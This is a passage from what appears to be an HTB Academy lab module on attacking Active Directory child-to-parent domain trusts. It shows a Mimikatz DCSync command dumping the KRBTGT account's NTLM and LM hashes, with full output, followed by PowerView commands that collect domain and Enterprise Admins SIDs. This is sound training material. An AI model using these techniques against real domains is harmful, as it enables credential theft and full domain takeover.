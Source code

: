 Since we have compromised the child domain, we can log in as a Domain Admin or similar and perform the DCSync attack to obtain the NT hash for the KRBTGT account.

#### Obtaining the KRBTGT Account's NT Hash using Mimikatz

  Attacking Domain Trusts - Child -> Parent Trusts - from Windows

```powershell-session
PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 11:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
    lm  - 0: 69df324191d4a80f0ed100c10f20561e
```

We can use the PowerView `Get-DomainSID` function to get the SID for the child domain, but this is also visible in the Mimikatz output above.

#### Using Get-DomainSID

  Attacking Domain Trusts - Child -> Parent Trusts - from Windows

```powershell-session
PS C:\htb> Get-DomainSID

S-1-5-21-2806153819-209893948-922872689
```

Next, we can use `Get-DomainGroup` from PowerView to obtain the SID for the Enterprise Admins group in the parent domain. We could also do this with the [Get-ADGroup](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps) cmdlet with a command such as `Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"`.

#### Obtaining Enterprise Admins Group's SID using Get-DomainGroup

  Attacking Domain Trusts - Child -> Parent Trusts - from Windows
